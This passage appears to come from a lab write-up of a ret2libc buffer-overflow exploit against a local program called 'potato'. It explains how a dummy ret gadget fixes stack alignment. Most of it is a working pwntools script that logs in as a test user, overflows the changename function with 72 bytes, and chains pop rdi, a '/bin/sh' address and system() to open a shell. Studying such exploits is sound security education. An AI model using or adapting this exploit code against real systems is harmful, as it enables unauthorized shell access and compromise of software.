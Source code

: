 Finally the stack needed to be aligned to execute this attack. This basically means the address in `$rsp` at the time of the `ret` statement of our vulnerable function needed to end on `0x...0`. If the stack is not aligned at the time of the attack, the attack will fail with a `Segmentation Fault`. To align the stack a `dummy ret` statement was the first statement to be executed with the attack. This lead to the previous unaligned stack with an address of `0x...8` in `$rsp` to realign itself. The `ret` statement can be any available statement at the time of execution. Four this attack the `ret` statment of the vulnerable function was simply executed twice, with the statments address at `0x4040e4`

With this knowledge the following attack script could be crafted.


```Python
#!/usr/bin/env python3

from pwn import *
import sys

# Addresses of libc functions system() and exit()
SYSTEM = 0x155554c5c8f0
EXIT = 0x155554c4c280

# Address of 'pop rdi ; ret' statement for setting rdi value which will be used as input for system()
# Address of dummy 'ret' statement (dummy in this case means any single ret statement) for stack alignment
POP_RDI = 0x155554c34205
DUMMY_RET = 0x4040e4

# Address of '/bin/sh' string from heap to use as argument for system()
BIN_SH = 0x4088c7

elf = ELF("./potato")

p = elf.process(["console"], stdin=PTY, aslr=False) # stdin=PTY for "getpass" password input
gdb.attach(p, '''
break func.c:192
continue
''')

# Login with test user
print(p.recvuntil(b"cmd> "))
p.sendline(b"login")
p.sendline(b"peter") # username
p.sendline(b"12345") # password
print(p.recvuntil(b"cmd> "))

# Call of vulnerable function change_name()
p.sendline(b"changename")

# Payload for Ret2LibC attack
payload = b''.join([b'\x41'*72, p64(DUMMY_RET), p64(POP_RDI), p64(BIN_SH), p64(SYSTEM), p64(EXIT)])

p.sendline(payload)

p.interactive()
```
